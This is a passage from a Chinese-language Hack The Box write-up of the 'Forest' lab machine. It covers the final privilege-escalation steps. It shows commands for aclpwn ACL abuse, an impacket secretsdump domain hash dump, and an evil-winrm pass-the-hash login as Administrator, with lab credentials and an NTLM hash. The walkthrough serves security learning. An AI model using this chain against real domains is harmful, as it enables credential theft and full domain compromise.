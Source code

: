 3. 授予**svc-alfresco**用户对域的**FCSync权限**

### [4.2]获取根
- 安装aclpwn工具、使用
```bash
root@kali:~/HTB/Forest$ pip install aclpwn
root@kali:~/HTB/Forest$ aclpwn -f svc-alfresco -ft user -d htb.local -du neo4j -dp 311311 -sp s3rvice -s 10.10.10.161
```
*注：路径选择 0*

- 获得组里每个人（包括管理员）的哈希
这里将使用[imapcket](https://github.com/SecureAuthCorp/impacket.git)中的secretsdump.py脚本
```bash
root@kali:~/HTB/Forest$ python impacket-tools/examples/secretsdump.py htb.local/svc-alfresco:s3rvice@10.10.10.161
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200326033210707.png)

- 使用evil-winrm登录Administrator
```bash
root@kali:~/HTB/Forest$ evil-winrm -i 10.10.10.161 -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/20200326033543607.png)
可以看到我们成功的获得了root！
I got Root~!![在这里插入图片描述](https://img-blog.csdnimg.cn/20200327004206477.jpg)


